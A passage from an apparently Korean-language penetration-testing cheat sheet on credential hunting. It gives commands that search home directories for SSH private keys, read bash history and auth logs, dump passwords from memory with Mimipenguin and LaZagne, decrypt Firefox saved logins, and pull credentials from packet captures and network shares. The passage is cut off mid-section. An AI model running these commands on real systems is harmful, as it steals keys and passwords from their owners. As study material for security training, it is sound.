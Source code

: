 ```
```ls -la /etc/cron.*/```

### SSH Private Keys 검색
```grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"```

### SSH Public Keys 검색
```grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"```

### Bash History 확인
```tail -n5 /home/*/.bash*```

### Log에서 특정 문자열 검색
```for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done```

<br/><br/>
## Memory & Cache 검색

### Memory - Mimipenguin
```sudo python3 mimipenguin.py```

### Memory - LaZagne
```sudo python2.7 laZagne.py all```

<br/><br/>
## Browsers 검색

### Firefox에 저장된 자격증명 검색
```
ls -l .mozilla/firefox/ | grep default
cat .mozilla/firefox/1bplpd86.default-release/logins.json | jq .
```

### Firefox에 저장된 자격증명 Decrypt
```python3.9 firefox_decrypt.py```

### Browsers - LaZagne
```python3 laZagne.py browsers```

<br/><br/>
# 7. Extracting Passwords from the Network

## Credential Hunting in Network Traffic

### Pcredz
- [Pcredz](https://github.com/lgandx/PCredz)는 실시간 트래픽이나 네트워크 패킷 캡처에서 자격 증명을 추출하는 데 사용<br/>
```
$ apt install python3-pip && sudo apt install libpcap-dev && sudo apt install file && pip3 install Cython && pip3 install python-libpcap
$ git clone https://github.com/lgandx/PCredz.git
$ ./Pcredz -f ../demo.pcapng -t -v
```

<br/><br/>
## Credential Hunting in Network Shares

### PowerShell(Windows)
```Get-ChildItem -Recurse -Include *.ext \\Server\Share | Select-String -Pattern "passw"```

### Snaffler(Windows)
- [Snaffler](https://github.com/SnaffCon/Snaffler)는 도메인에 가입된 컴퓨터에서 실행될 때 접근 가능한 네트워크 공유를 자동으로 식별<br/>
```c:\Users\Public>Snaffler.exe -s -u```<br/>

### PowerHuntShares(Windows)
- [PowerHuntShares](https://github.com/NetSPI/PowerHuntShares는 도메인에 가입된 컴퓨터에서 실행할 필요가 없는 PowerShell 스크립트<br/>
```

[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> whoami